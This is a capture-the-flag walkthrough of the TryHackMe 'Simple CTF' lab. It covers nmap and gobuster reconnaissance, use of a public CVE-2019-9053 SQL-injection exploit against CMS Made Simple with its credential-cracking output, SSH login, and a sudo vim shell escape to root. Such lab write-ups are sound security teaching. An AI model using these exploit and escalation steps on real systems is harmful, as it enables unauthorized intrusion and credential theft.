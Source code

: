 ```yaml
---
title: TryHackMe Simple CTF [CHALLENGE]
date: 2024-03-10 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/f28ade2b51eb7aeeac91002d41f29c47.png
---
```


A beginner level CTF. Know how to use nmap, directory busting, network service exploitation, searching CMS public exploit and linux privilege escalation.

## **Reconnaissance**
Initially do the Nmap scan.
```bash
nmap -sC -sV -p- $TARGET_IP --open
```
`-sV`: Enables version detection, which attempts to determine the version of services running on open ports.

`-sC`: Enables default script scanning, executing a set of scripts to discover additional information and potential vulnerabilities.

`-p-`: Scans all 65,535 TCP ports, allowing for thorough port enumeration.

`TARGET_IP`: Specifies the target IP address.

`--open`: Shows only open ports in the output, filtering out closed and filtered ports.


```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-08 06:37 EST
Nmap scan report for 10.10.157.97
Host is up (0.30s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.50.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 394.01 seconds
```
Based on the Nmap scan results, the target system has two open ports with the following services.
- Port 21/tcp: vsftpd 3.0.3
- Port 2222/tcp: OpenSSH 7.2p2 running on Ubuntu Linux.
- Port 80/tcp: Apache HTTP Server 2.4.18 running on Ubuntu.

## **Insights**
---
- 80 HTTP
    - We have found a directory /simple that has a CMS
    - Search for a possible default login credentials
    - Found a CMS Version (CMS Made Simple version 2.2.8)
    - Search for a possible version vulnerability

- 21 FTP
    - vsftpd 3.0.3
    - We have FTP Anonymous login. We didn’t tried this one!

- 2222 SSH
    - We need some credentials to access this and bruteforcing can take a really long time before the credentials can be cracked. Hence, this is the least of our priorities for pentesting.
    - Found some credentials.

## **Enumeration**
---
### 80 HTTP
Based from our Nmap scan, it looks like port 80 only shows the Apache default page.

![Desktop View](/assets/images/simple-ctf/def-page.png){: width="972" height="589" }

Let us try scanning for other directories using gobuster. We also can’t do pretty much here.

```bash
gobuster dir -u http://10.10.157.97 -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -k -t 30
```

```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 313] [--> http://10.10.157.97/simple/]
/server-status        (Status: 403) [Size: 300]
```

It looks like we have a redirect page. We can inspect that and look for more information


![Desktop View](/assets/images/simple-ctf/simple.png){: width="972" height="589" }

All right! We have a Content Management System (CMS), we can try inspecting source code and see if we can find something interesting.

![Desktop View](/assets/images/simple-ctf/source-code.png){: width="972" height="589" }

The version of the CMS mentioned is `2.2.8`, which suggests that this is the specific release of the software that the website is using. This means we can search in "google" or others like `[service_name]` `[version]` exploit

Fortunately, someone posted an updated CMS exploit on their github: [kriss-u/cmsmadesimple-exploit.py](https://gist.github.com/kriss-u/321f0418778697e2ec919f04664ceb4b)


This script is an exploit for an unauthenticated SQL injection vulnerability in CMS Made Simple versions up to 2.2.9, identified by [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053). The exploit performs a time-based SQL injection to extract sensitive information from the vulnerable web application

The script brute-forces the `username`, `email`, and `password` by sequentially guessing their values and observing the response time to determine when a guess is correct.

If the `--crack` option is used, the script attempts to crack the hashed password by hashing each word in the provided wordlist with the previously extracted salt and comparing it against the extracted hashed password.


```bash
python3 exploit.py -u http://target-uri --crack -w /path-wordlist
```

Using the exploit we have found

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```


## **Gaining an Initial Foothold**

Now that we have a username and a password. How about using these credentials to log in via SSH running on port 2222.

```bash
ssh mitch@<TARGET_IP>> -p 2222
```
![Desktop View](/assets/images/simple-ctf/ssh.png){: width="972" height="589" }

Now we got the shell, let us look for the flag

```bash
/home/mitch/user.txt
```

Let us also look for another user!

![Desktop View](/assets/images/simple-ctf/user2.png){: width="972" height="589" }

## **Privilege Escalation**

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

We found that granting a user, such as `"mitch"`, has the ability to run Vim as root without a password, as specified by `(root) NOPASSWD: /usr/bin/vim` in the sudoers configuration. This privilege effectively elevates "mitch" to have root-level access for the scope of actions performable within Vim, bypassing standard security protocols that require authentication for such elevated privileges.

![Desktop View](/assets/images/simple-ctf/sudo-priv.png){: width="972" height="589" }

We can use [gtfobin](https://gtfobins.github.io/gtfobins/vim/#sudo) for privilege escalation.

```
sudo vim -c ':!/bin/sh'
```
![Desktop View](/assets/images/simple-ctf/pwned.png){: width="972" height="589" }



## TAKE AWAY CONCEPTS
- Learn how the exploit works. There are instances where the code might not work you expected it to be.